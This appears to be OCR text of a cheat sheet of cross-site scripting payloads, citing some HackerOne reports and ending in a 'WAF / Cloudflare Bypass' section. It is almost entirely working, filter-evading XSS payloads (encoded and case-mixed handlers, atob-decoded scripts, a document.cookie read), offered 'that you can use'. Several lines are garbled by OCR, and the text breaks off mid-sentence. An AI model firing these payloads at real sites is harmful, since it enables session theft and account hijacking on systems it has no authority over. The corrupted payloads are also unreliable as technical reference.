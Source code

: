 XSS PAYLOADS

```html
<base href="alert(1)" onfocus="a = /\/([^/]+)$/.exec(baseURI); eval(a[1]);" tabindex=1 style="display:block" autofocus></base>
```

```
<img%20hrEF="x"%20sRC="data:x,"%20oNLy=1%20oNErrOR=prompt1>
```

```
<img+src=oNlY=1+ onerror="alert(['a', 'x', 'b', 'x', 'c', 's'].map(c => c.replace(/[abc]/g, '')).join(''))">
```

```
<img+src=oNlY=1+ onerror="alert(['x', String.fromCharCode(121), 'x', 's'].filter(c => c.charCodeAt(0) !== 121).join(''))">
```

```
%3CSVG/oNlY=1%20ONlOAD=confirm(document.domain)%3E
```

```
<img/src/onerror=setTimeout(atob(/YWxlcnQoMTMzNyk/.source))>
```

```
<details x=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:2 open ontoggle="prompt(document.cookie);">
```

```
?foobar=<foo%20bar=%250a%20onclick=<your js code>
```

ANOTHER 10 XSS payloads that you can use !

```
?msg=%3Csvg%2Fonload%3Dalert%28%22XSS%22%29%20%3E, <svg/onload=alert("XSS") >
```

hackerone.com/reports/2433634

```
?utm_source=abc%60%3breturn+false%7d%29%3b%7d%29%3balert%60xss%60;%3c%2f%73%63%72%69%70%74%3e
```

hackerone.com/reports/846338
The payload finished open function calls from jQuery, executes an alert as POC and then finished the original script tag
3. <a+HREF="%26%237 javascrip%26%239t: alert%261par;document .domain) *>

x.com/botami143/stat…
WAF / Cloudflare Bypass

```
”/>&_lt;_script>alert(1)&_lt;/scr_ipt>”/> remove the underscores
```

hackerone.com/reports/484434
filtering using HTML entities for the alternation of <>, because I noticed that it's filtering the
